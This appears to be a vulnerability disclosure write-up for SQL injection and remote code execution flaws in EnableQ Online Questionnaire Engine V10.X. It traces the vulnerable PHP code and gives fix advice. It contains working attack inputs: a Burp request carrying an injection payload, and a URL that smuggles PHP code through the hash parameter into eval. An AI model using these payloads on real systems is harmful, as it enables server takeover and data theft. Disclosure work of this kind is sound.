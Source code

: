 ###EnableQ SQLi&RCE Vulnerability  

####General description：  

**[1]EnableQ Online Questionnaire Engine V10.X has a SQL injection vulnerability.The vulnerability stems from the AjaxCheckTextRepeat.php file failing to filter the qid parameters. Remote attackers can use the vulnerability to obtain database sensitive information**  

**[2]EnableQ Online Questionnaire Engine V10.X has a Remote Code Execution Vulnerability in the front desk. Remote unauthorized attackers can use this vulnerability to execute code and gain server control**  

_ _ _

**Environment: **  
apache/php 7.0.12/EnableQ Online Questionnaire Engine V10.51,V10.54  

_ _ _

**[1]SQL Injection Vulnerability**

In the \public_html\JS\AjaxCheckTextRepeat.php file:  

![1.png](./img/1.png)
Line 56 gets the value of the variable ```hash``` via a GET request, and line 57 is split into an array assigned to ```$thisPageChecks``` by "|".  


![2.png](./img/2.png)
Line 61 traverses the ```$thisPageChecks``` array, and line 66 is split into arrays by "*" and assigned to ```$theQtnType```.  


![3.png](./img/3.png)
Line 111 enters the if statement when ```$theQtnType[0]``` is equal to 23, and line 116 splicing ```$_GET['qid']``` directly, and line 126 enters the database query, resulting in SQL injection.  

You can get the value of ```qid``` through Burp's intruder tool:  
```
GET /JS/AjaxCheckTextRepeat.php?qid=§1§%20where%201%20%23&hash=23*1*2| HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=0e7d8153fbdf12a52a290802ca18a570


```
The position of $1 traverses from 1 to 999,and the length that exists in the returned data is much smaller than that which does not exist.  

![4.png](./img/4.png)  
As shown in the figure, ```qid``` is 140.  

Poc in the poc directory(poc.py).  
![5.png](./img/5.png)  

Vulnerability fix recommendations: Encodes the data entered by the user or ```int($_GET['qid'])```.  

**[2]RCE Vulnerability**

In the \public_html\JS\AjaxCheckEmpty.php file:  
![6.png](./img/6.png)  
Line 3 defines the runexpcode function, in which line 7 executes the ```$code``` parameter via eval. If we can find the place to call the function and the ```$code``` parameter is controllable, then arbitrary code execution can be caused.  

![7.png](./img/7.png)  
The runexpcode function is called on line 1113 of the file, and the ```$theExpression``` parameter is passed, so let the value of $theCheckSkip on line 1112 be false.  

![8.png](./img/8.png)  
The ```$theExpressio```n parameter is derived from ```$theQtnType[2]``` on line 1107.  

To perform the above functions and assignments, you need to satisfy the following:can't enter line 49, but go to line 735.  
![9.png](./img/9.png)  
![10.png](./img/10.png)  

![11.png](./img/11.png)  
The ```$theQtnType``` is derived from the ```$theCheck``` parameter, which is split by "*" on line 41. The ```$theCheck``` parameter is again derived from ```$thisPageChecks```.  

![12.png](./img/12.png)  
As above, ```$thisPageChecks``` is obtained by the hash of the GET request and processed by "|".  

In summary, the 37th line obtains the ```hash``` parameter by GET, and then splits into an array ```$thisPageChecks``` by "|", then the 40th line traverses the array, and the 41st line divides the traversed value into an array ```$theQtnType``` by "*". Line 43 enters the conditional statement when the first value of the repartitioned array ```$theQtnType``` is "s1", and then executes the runexpcode function when ```$theQtnType[2]``` is not equal to m2, eventually resulting in remote code execution.  

You can get the value of ```qid``` through Burp's intruder tool:  
```
GET /JS/AjaxCheckTextRepeat.php?qid=§1§%20where%201%20%23&hash=23*1*2| HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=0e7d8153fbdf12a52a290802ca18a570


```
The position of $1 traverses from 1 to 999,and the length that exists in the returned data is much smaller than that which does not exist.  

![4.png](./img/4.png)  
As shown in the figure, ```qid``` is 140.  
Then request the following link to execute the phpinfo() function.  
```
http://yourdomain/JS/AjaxCheckEmpty.php?qid=140&hash=s1*7*555;phpinfo();exit*3*4*5*6*aGVoZQ==|
```
![13.png](./img/13.png)  

Vulnerability fix recommendations: Encode the data entered by the user or do not use the eval function.  
